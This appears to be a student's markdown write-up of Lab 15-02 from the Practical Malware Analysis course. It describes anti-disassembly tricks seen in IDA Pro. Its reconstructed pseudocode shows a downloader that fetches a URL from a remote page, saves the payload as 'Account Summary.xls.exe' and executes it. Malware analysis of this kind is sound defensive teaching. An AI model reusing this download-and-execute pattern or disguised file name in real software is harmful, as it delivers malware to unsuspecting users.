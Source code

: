 # Lab 15-02

## Findings

### Functions
![](../Images/Lab-15-02-01.png)  

 - Reference to web related APIs

### Strings
![](../Images/Lab-15-02-02.png)  

 - Some error messages and reference to bamboo
 - No static URL endpoints found

### Anti-Disassembly Techniques

#### Code Disassembled as bytes
![](../Images/Lab-15-02-03.png)  

 - Some parts of the code where not disassembled properly and were treated as data bytes

![](../Images/Lab-15-02-04.png)  

 - Manually force IDA Pro to assemble the data bytes as code
 - Now shows a subroutine `sub_40130F` being called, among other operations

#### Rogue instructions
![](../Images/Lab-15-02-05.png)  
![](../Images/Lab-15-02-06.png)  

#### Jump Instructions with the Same Target
![](../Images/Lab-15-02-07.png)  

### Anti-Strings Technique
![](../Images/Lab-15-02-08.png)  
![](../Images/Lab-15-02-09.png)  

### Pseudocode
```py
# Main Stack
[ebp-102B0h] -> hAccountFile
[ebp-102ACh] -> Buffer_2
[ebp-102A8h] -> cAccountSum
[ebp-102A4h] -> hInternet
[ebp-102A0h] -> Buffer
[ebp-2A0h] -> nCounter
[ebp-29Ch] -> hInternetOpen
[ebp-298h] -> BambooOffset
[ebp-294h] -> lpWSData
[ebp-104h] -> dwNumberOfBytesRead
[ebp-100h] -> cHostname
```

```py
def main(argc, argv):
    bWSResult = WSAStartup(0x202, lpWSData)
    if (!bWSResult):
        return

    bHNResult = gethostname(cHostname)
    if (!bHNResult):
        print("not enough name")
        return

    nCounter = 0
    while (nCounter < 0x100 || cHostname[nCounter] != null):
        cHNLetter = cHostname[nCounter]
        if (cHNLetter == 'Z'):
            cHostname[nCounter] = 'A'
            continue
        
        if (cHNLetter == 'z'):
            cHostname[nCounter] = 'z'
            continue

        if (cHNLetter == '9'):
            cHostname[nCounter] = '0'
            continue
        
        cHNLetter += 1
        cHostname[nCounter] = cHNLetter

    hInternet = InternetOpenA(cHostname, 1, 0, 0, 0)

    cUrl = GetUrl()
    hInternetOpen = InternetOpenUrlA(hInternet, cUrl, 0, 0, 0, 0)
    if (!hInternetOpen):      
        print("internet unable")
        return

    hFile = InternetReadFile(hInternetOpen, Buffer, 0x0FFFF, dwNumberOfBytesRead)
    if (!hFile):
        print("internet unable")
        return

    InternetCloseHandle(hInternetOpen)

    BambooOffset = strstr(hFile, "Bamboo::")
    if (!BambooOffset):
        return
    
    ColonOffset = strstr(BambooOffset, "::")

    cAccountSum = GetAccountSum()

    Buffer_2 = malloc(0xA00000)

    BambooOffset += 8 # Remove "Bamboo::"
    hInternetOpen = InternetOpenUrlA(hInternet, BambooOffset, 0, 0, 0, 0)

    InternetReadFile(hInternetOpen, Buffer_2, 0x10000, dwNumberOfBytesRead)

    hAccountFile = fopen(cAccountSum, "wb")
    fwrite(Buffer_2, dwNumberOfBytesRead, 1, hAccountFile)
    fclose(hAccountFile)

    ShellExecuteA(0, 0, cAccountSum, 0, 0, 0xA)

    return

def GetUrl():
    return "http://www.practicalmalwareanalysis.com/bamboo.html"

def GetAccountSum():
    return "Account Summary.xls.exe"

```

## Questions
### 1. What URL is initially requested by the program?
The url is `http://www.practicalmalwareanalysis.com/bamboo.html`.

### 2. How is the User-Agent generated?
It is generated by modifying the hostname with rotation of Z -> A, 9 -> 0 and adding 1 to each remaining characters.

### 3. What does the program look for in the page it initially requests?
The program looks for the substring `Bamboo::` within the received data. It will mark where the next url endpoint should be at.

### 4. What does the program do with the information it extracts from the page?
It send a request to the new URL and stored the received data into a file named `Account Summary.xls.exe`. Then it executes that given file in shell.
